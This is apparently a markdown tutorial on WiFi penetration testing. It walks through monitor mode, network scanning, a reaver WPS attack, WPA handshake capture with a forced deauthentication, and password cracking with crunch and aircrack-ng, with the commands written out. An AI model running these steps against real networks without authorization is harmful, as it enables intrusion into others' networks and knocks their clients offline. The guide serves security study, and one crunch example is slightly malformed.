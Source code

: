 # WiFi Penetration Testing Guide

> **Disclaimer:** This guide is for educational purposes only. Unauthorized use of these tools on networks you do not own or have permission to test is illegal.

## Table of Contents
- [Setting Up Monitor Mode](#setting-up-monitor-mode)
- [Scanning for Networks](#scanning-for-networks)
- [Performing WPS Attacks](#performing-wps-attacks)
- [Performing WPA/WPA2 Handshake Capture](#performing-wpapawpa2-handshake-capture)
- [Cracking WPA/WPA2 Passwords](#cracking-wpapawpa2-passwords)
- [Tips and Best Practices](#tips-and-best-practices)

---

## Setting Up Monitor Mode

Before we begin, we need to configure our wireless interface for monitoring.

### 1. List Available Interfaces
```bash
iwconfig
```
This command shows all available wireless devices/interfaces.

### 2. Turn Off the Interface

Replace `wlan1` with your actual interface name.
```bash
ifconfig wlan1 down
```

### 3. Kill Network Processes

This ensures no processes interfere with our testing.
```bash
airmon-ng check kill
```

### 4. Enable Monitor Mode
```bash
iwconfig wlan1 mode monitor
```

### 5. Turn the Interface Back On
```bash
ifconfig wlan1 up
```

### 6. Verify Monitor Mode

Run `iwconfig` again to confirm that `wlan1` is in monitor mode.

---

## Scanning for Networks

Now that the interface is ready, let's scan for nearby networks.

### Scan 2.4 GHz Networks
```bash
airodump-ng wlan1
```

### Scan 5 GHz Networks
```bash
airodump-ng --band a wlan1
```

### Scan Both Bands (2.4 GHz & 5 GHz)
```bash
airodump-ng --band abg wlan1
```

### Capture Data to a File

To save the scan results, specify the target network's BSSID (MAC address), channel, and output file:
```bash
airodump-ng --bssid <target_mac> --channel <channel> --write capture_file wlan1
```

---

## Performing WPS Attacks

WPS (Wi-Fi Protected Setup) attacks can be used to exploit vulnerabilities in routers that support WPS.

### 1. Find Networks with WPS Enabled

Use `wash` to list nearby networks with WPS enabled:
```bash
wash --interface wlan1
```

### 2. Perform a WPS Attack

Replace `<target_mac>` with the router's MAC address and `<channel>` with the correct channel:
```bash
reaver --bssid <target_mac> --channel <channel> --interface wlan1 -vvv --no-associate
```
- `-vvv`: Verbose mode for detailed output.
- `--no-associate`: Manually associate with the network instead of relying on Reaver's built-in association feature.

---

## Performing WPA/WPA2 Handshake Capture

To crack WPA/WPA2 passwords, we first need to capture the handshake between the router and a connected client.

### 1. Start Capturing Handshakes

Replace `<target_mac>` and `<channel>` with the appropriate values:
```bash
airodump-ng --bssid <target_mac> --channel <channel> --write wpa_handshake wlan1
```
Let this run until the handshake is captured.

### 2. Force a Deauthentication Attack

To speed up the handshake capture, deauthenticate a connected client:
```bash
aireplay-ng --deauth 4 -a <target_mac> -c <client_mac> wlan1
```
- `-a`: Target network's MAC address.
- `-c`: Connected client's MAC address.

---

## Cracking WPA/WPA2 Passwords

Once you've captured the handshake, you can attempt to crack the password using a wordlist.

### 1. Generate a Wordlist with Crunch

Use `crunch` to generate a custom wordlist. For example:
```bash
crunch 6 8 abcdefghijklmnopqrstuvwxyz0123456789 -o wordlist.txt
```
- `6 8`: Minimum and maximum password lengths.
- `abcdefghijklmnopqrstuvwxyz0123456789`: Character set.
- `-o wordlist.txt`: Output file.

You can also use the `-t` option to include known patterns:
```bash
crunch 6 8 abc123 -t @@@@ -o wordlist.txt
```

### 2. Use Aircrack-ng to Crack the Password
```bash
aircrack-ng wpa_handshake-01.cap -w wordlist.txt
```
- `wpa_handshake-01.cap`: The handshake file.
- `wordlist.txt`: Your generated wordlist.

Aircrack-ng will attempt to match each password in the wordlist with the captured handshake.

---

## Tips and Best Practices

- **Stay Legal:** Always obtain explicit permission before testing any network.
- **Optimize Wordlists:** Use intelligent wordlists based on the target's interests or publicly available information.
- **Monitor Performance:** Large wordlists can take significant time to process. Start with smaller lists for faster results.
- **Update Tools:** Ensure all tools are up-to-date for the best performance and compatibility.

---

dont get yourselves arrested lol





  

